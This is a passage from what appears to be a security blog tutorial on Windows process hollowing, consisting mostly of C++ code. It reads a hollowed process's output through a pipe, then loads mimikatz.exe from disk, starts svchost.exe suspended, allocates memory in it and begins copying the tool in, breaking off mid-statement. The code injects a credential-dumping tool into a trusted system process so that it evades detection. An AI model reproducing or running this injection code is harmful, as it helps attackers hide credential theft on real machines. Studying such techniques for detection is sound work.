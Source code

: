 {% highlight C++ %}
VOID retrieveOutput(HANDLE hThread, HANDLE hStdOut)
{
    PVOID commandOutput = nullptr;
    DWORD bytesSize = 0;
    while (WaitForSingleObject(hThread, 100) != WAIT_OBJECT_0) {
        readPipe(hStdOut, &commandOutput, &bytesSize);
        if (bytesSize > 0)
        {
            printf("%s\r\n", commandOutput);
            DATA_FREE(commandOutput, bytesSize);
        }
    }
    // Reading output one last time to check we don't leave anything behind...
    readPipe(hStdOut, &commandOutput, &bytesSize);
    if (bytesSize > 0)
    {
        printf("%s\r\n", commandOutput);
    }
}
{% endhighlight %}

Let's try it now with this main function

{% highlight C++ %}
int main(int argc, char** argv)
{

    PIMAGE_NT_HEADERS64 peInjectNtHeaders = NULL;
    LPPROCESS_INFORMATION pi = new PROCESS_INFORMATION();

    PCHAR args = (PCHAR)"coffee exit";
    LPCSTR peInject = "C:\\Users\\user\\Downloads\\mimikatz_trunk\\x64\\mimikatz.exe";
    LPCSTR target = "C:\\Windows\\System32\\svchost.exe";

    LPVOID peToInjectContent = NULL;
    DWORD peSize = 0;
    
    HANDLE hStdOut = nullptr;

    if (!loadPEFromDisk(peInject, peToInjectContent, &peSize))
        exit(1);

    if (!launchSusprendedProcess((LPSTR)target, pi, args, hStdOut))
        exit(1);

    if (!retrieveNtHeaders(peInjectNtHeaders, peToInjectContent))
        exit(1);

    LPVOID allocAddrOnTarget = NULL;
    allocAddrOnTarget = VirtualAllocEx(pi->hProcess, NULL, peInjectNtHeaders->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    DWORD64 DeltaImageBase = (DWORD64)allocAddrOnTarget - peInjectNtHeaders->OptionalHeader.ImageBase;

    if (allocAddrOnTarget == NULL)
    {
        _dbg("[-] ERROR: Failed to allocate memory on target process\r\n");
        exit(1);
    }

    _dbg("[+] Memory allocate at : 0x%p\n", allocAddrOnTarget);

    IMAGE_DATA_DIRECTORY relocationTable = peInjectNtHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC];
    PIMAGE_SECTION_HEADER peToInjectRelocSection = NULL;

    DWORD offsetRdata = 0;

    if (!copyPEinTargetProcess(pi->hProcess, allocAddrOnTarget, peToInjectContent, peInjectNtHeaders, peToInjectRelocSection, &offsetRdata))